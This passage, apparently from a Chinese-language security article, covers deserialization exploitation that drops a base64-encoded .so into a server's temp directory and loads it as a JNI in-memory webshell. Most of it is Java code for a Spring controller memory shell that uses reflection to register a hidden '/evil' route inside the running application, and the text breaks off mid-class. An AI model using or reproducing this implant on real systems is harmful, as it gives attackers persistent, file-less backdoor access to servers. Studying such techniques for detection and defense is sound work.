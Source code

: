 #### 反序列化利用
反序列化利用时实现原理与 JSP 一致，也同样需要将 so 文件内容的 base64 编码定义为常量，在反序列化触发时，将 so 的内容写入到服务器临时文件目录下，再进行加载。

我们可以在一个普通的 controller 内存马的基础上，将其改造成 JNI 内存马。controller 内存马如下, 该内存马重写了 index 方法，并在静态代码块中将自身添加到 RequestMapping 中。
```java
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.util.pattern.PathPatternParser;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Map;
import java.util.Scanner;

public class SpringControllerMemshell {
    static {
        String inject_uri = "/evil";
        try{
            System.out.println("Controller Injecting");
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                    currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

            Field f = mappingHandlerMapping.getClass().getSuperclass().getSuperclass().getDeclaredField("mappingRegistry");
            f.setAccessible(true);
            Object mappingRegistry = f.get(mappingHandlerMapping);

            Class<?> c = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");


            Field field = null;
            try {
                field = c.getDeclaredField("urlLookup");
                field.setAccessible(true);
            }catch (NoSuchFieldException e){
                field = c.getDeclaredField("pathLookup");
                field.setAccessible(true);
            }

            Map<String, Object> urlLookup = (Map<String, Object>) field.get(mappingRegistry);
            for (String urlPath : urlLookup.keySet()) {
                if (inject_uri.equals(urlPath)) {
                    throw new RuntimeException();
                }
            }

            Class <?> evilClass = SpringControllerMemshell.class;

            Method method2 = evilClass.getMethod("index");

```